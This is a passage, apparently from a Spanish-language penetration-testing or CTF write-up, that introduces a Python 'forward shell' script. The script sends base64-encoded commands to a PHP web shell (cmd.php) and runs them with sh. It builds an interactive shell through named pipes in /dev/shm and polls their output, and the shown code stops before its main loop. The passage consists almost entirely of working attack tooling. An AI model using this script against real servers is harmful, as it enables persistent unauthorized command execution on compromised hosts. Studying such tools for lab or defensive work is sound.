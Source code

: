 Haríamos uso de la siguiente utilidad en Python3:

```python
#!/usr/bin/python3

import requests, time, threading, pdb, signal, sys
from base64 import b64encode
from random import randrange

class AllTheReads(object):
	def __init__(self, interval=1):
		self.interval = interval
		thread = threading.Thread(target=self.run, args=())
		thread.daemon = True
		thread.start()

	def run(self):
		readoutput = """/bin/cat %s""" % (stdout)
		clearoutput = """echo '' > %s""" % (stdout)
		while True:
			output = RunCmd(readoutput)
			if output:
				RunCmd(clearoutput)
				print(output)
			time.sleep(self.interval)

def RunCmd(cmd):
	cmd = cmd.encode('utf-8')
	cmd = b64encode(cmd).decode('utf-8')
	payload = {
        	'cmd' : 'echo "%s" | base64 -d | sh' %(cmd)
		}
	result = (requests.get('http://127.0.0.1/cmd.php', params=payload, timeout=5).text).strip()
	return result

def WriteCmd(cmd):
	cmd = cmd.encode('utf-8')
	cmd = b64encode(cmd).decode('utf-8')
	payload = {
		'cmd' : 'echo "%s" | base64 -d > %s' % (cmd, stdin)
	}
	result = (requests.get('http://127.0.0.1/cmd.php', params=payload, timeout=5).text).strip()
	return result

def ReadCmd():
        GetOutput = """/bin/cat %s""" % (stdout)
        output = RunCmd(GetOutput)
        return output

def SetupShell():
	NamedPipes = """mkfifo %s; tail -f %s | /bin/sh 2>&1 > %s""" % (stdin, stdin, stdout)
	try:
		RunCmd(NamedPipes)
	except:
		None
	return None

global stdin, stdout
session = randrange(1000, 9999)
stdin = "/dev/shm/input.%s" % (session)
stdout = "/dev/shm/output.%s" % (session)
erasestdin = """/bin/rm %s""" % (stdin)
erasestdout = """/bin/rm %s""" % (stdout)

```